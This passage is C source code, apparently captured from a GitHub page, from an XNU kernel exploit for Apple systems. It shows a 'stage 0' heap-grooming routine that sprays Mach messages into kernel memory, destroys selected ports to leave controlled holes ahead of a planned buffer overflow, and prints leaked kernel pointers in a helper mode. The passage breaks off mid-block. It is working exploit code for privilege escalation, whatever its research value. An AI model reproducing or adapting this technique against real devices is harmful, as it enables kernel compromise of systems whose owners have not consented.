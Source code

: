 ```cpp
    free(msg);
    return KERN_SUCCESS;
}

...

// ----------- heap pre-exploit setup ----------- //
    INFO("Doing stage 0 heap setup\n");

    // fill kalloc_map so new allocations are always done in kernel_map (where our buffer that will get overflowed is)
    mach_port_t saved_ports[10];
    mach_msg_size_t msg_size = message_size_for_kalloc_size(7 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
    size_t stage0_sz = pagesize == 0x4000 ? 10 MB : 5 MB;
    for (int i = 0; i < 10; i++) {
        saved_ports[i] = POP_PORT();

        #if ENABLE_HELPER
        //helper; set signature
        if((i % 2) == 0) {memset(data, 0x74, msg_size);}
        else {memset(data, 0x72, msg_size);}
        #endif

        for (int j = 0; j < stage0_sz / (7 * pagesize); j++) {
            
            kern_return_t ret = send_message(saved_ports[i], data, msg_size);
            
            if (ret) {
                ERROR("Failed to send message\n");
                goto err;
            }
        }

        #if ENABLE_HELPER
        //helper; obtain msgdata_kptr
        uint64_t kmsgdata_kptr = find_kmsgdata_from_port(saved_ports[i]);
        INFO("saved_ports[%d](port=0x%x)'s msgdata_kptr = 0x%llx\n", i, saved_ports[i], kmsgdata_kptr);
        #endif
    }
    
    
    free(data);
    data = NULL;

    // we'll never do allocations smaller than 8 pages, so create some 7 page holes so the system can do small allocations there and leave us in peace
    mach_port_destroy(mach_task_self(), saved_ports[0]);
    mach_port_destroy(mach_task_self(), saved_ports[2]);
    mach_port_destroy(mach_task_self(), saved_ports[4]);
    mach_port_destroy(mach_task_self(), saved_ports[5]);
    mach_port_destroy(mach_task_self(), saved_ports[7]);
    mach_port_destroy(mach_task_self(), saved_ports[9]);

    // make a bunch of 8 page allocations to ensure there are no holes that mess with our allocations
    mach_port_t spray = POP_PORT();
    msg_size = message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
    
    #if ENABLE_HELPER
```